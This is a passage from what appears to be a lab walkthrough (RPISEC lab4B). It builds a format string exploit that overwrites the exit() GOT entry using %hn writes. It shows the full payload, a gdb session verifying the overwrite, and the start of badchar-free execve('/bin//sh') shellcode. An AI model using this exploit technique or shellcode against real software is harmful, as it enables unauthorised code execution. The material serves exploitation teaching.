 **[The value we want] - [The bytes already wrote] = [The value to set]**.

Let's start with the *high order* bytes:

It will be *49151 - 8 = 49143*, because we will already write **8** bytes (the two **4** bytes addresses).

Then, the *low order* bytes:

It'll will be *63088 - 49151 = 13937*, because we already wrote **49151** bytes (the two **4** bytes addresses and **49143** bytes from the previous writing).

Now we can construct the exploit: 

It'll be: `"\xba\x99\x04\x08" + "\xb8\x99\x04\x08" + "%49143x" + "%6$hn" + "%13937x" + "%7$hn"`. Let me explain:

- `\xba\x99\x04\x08` or **0x080499ba** (in reverse order) points to the **high** order bytes.
- `\xb8\x99\x04\x08` or **0x080499b8** (in reverse order) points to the **low** order bytes.
- `%49143x` will write *49143* bytes on the standard output.
- `%6$hn` will write these bytes at the first address specified (**0x080499ba**).
- `%13937x` will write *13937* bytes on the standard output.
- `%7$hn` will write these bytes at the second address specified (**0x080499b8**).

Let's try that in `gdb`. Again, don't forget to set a breakpoint on the *exit()* call.

```nasm
gdb-peda$ break *main+163
Breakpoint 1 at 0x8048730
gdb-peda$ x/x 0x080499b8
0x80499b8 <exit@got.plt>:  0x08048566
gdb-peda$ r < <(python -c 'print("\xba\x99\x04\x08" + "\xb8\x99\x04\x08" + "%49143x" + "%6$hn" + "%13937x" + "%7$hn")')
Starting program: /levels/lab04/lab4B < <(python -c 'print("\xba\x99\x04\x08" + "\xb8\x99\x04\x08" + "%49143x" + "%6$hn" + "%13937x" + "%7$hn")')
��

...[snip]...

Breakpoint 1, 0x08048730 in main ()
gdb-peda$ x/x 0x080499b8
0x80499b8 <exit@got.plt>:  0xbffff670
```

Awesome, the orginal *exit()* address (`0x08048566`) has been replaced by `0xbffff670`. Now, the idea would be to place a NOP-sled and a shellcode right after our format string exploit given the new address point right after the first part of the exploit.

Let's write this shellcode.

## Shellcode

Remember, we have a small constraint here, the shellcode can't contain bytes between 0x41 (A) and 0x5A (Z) as the code will convert them to the lower string version of the ASCII letters. Let's do a quick rewrite of one of our previous shellcode to avoid the *badchars*. Here is the original version:

```nasm
global _start
_start:

xor    eax, eax ; EAX = 0
push   eax ; push our null byte on the stack to end the string
; push "/bin//sh" in reverse order
push   0x68732f2f ; "hs//"
push   0x6e69622f ; "nib/"

; execve("/bin//sh/", 0, 0);
mov    ebx, esp ; EBX = ptr to "/bin//sh"
mov    ecx, eax ; ECX = 0
```